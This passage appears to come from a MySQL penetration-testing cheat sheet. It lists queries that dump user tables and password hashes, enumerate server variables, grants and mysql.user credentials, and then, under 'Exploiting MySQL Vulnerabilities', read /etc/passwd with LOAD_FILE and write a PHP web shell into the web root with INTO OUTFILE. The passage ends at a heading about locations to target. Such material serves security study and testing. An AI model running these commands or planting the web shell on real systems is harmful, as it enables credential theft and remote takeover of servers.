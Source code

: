 #### Querying Data

```sql
SELECT * FROM users;
```

Example output:

```
+----+----------+----------------------------------+--------------------+
| id | username | password                         | email              |
+----+----------+----------------------------------+--------------------+
|  1 | admin    | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@example.com  |
|  2 | john     | 5f4dcc3b5aa765d61d8327deb882cf99 | john@example.com   |
|  3 | sara     | 7603f99b8b519a9f727ea5d135d85872 | sara@example.com   |
+----+----------+----------------------------------+--------------------+
```

#### Server Configuration Information

```sql
SHOW VARIABLES;
SHOW VARIABLES LIKE '%version%';
SHOW VARIABLES LIKE '%datadir%';
SHOW VARIABLES LIKE '%secure%';
```

#### User Information and Privileges

```sql
SELECT user, host, authentication_string FROM mysql.user;
SHOW GRANTS;
SHOW GRANTS FOR 'username'@'host';
```

### Exploiting MySQL Vulnerabilities

#### File System Access

MySQL can be used to read from and write to the file system if configured improperly:

**Reading Files**

```sql
SELECT LOAD_FILE('/etc/passwd');
```

**Writing Files**

```sql
-- Check if secure_file_priv is set
SELECT @@secure_file_priv;

-- Write a file (if permitted)
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';
```

Common locations to target:
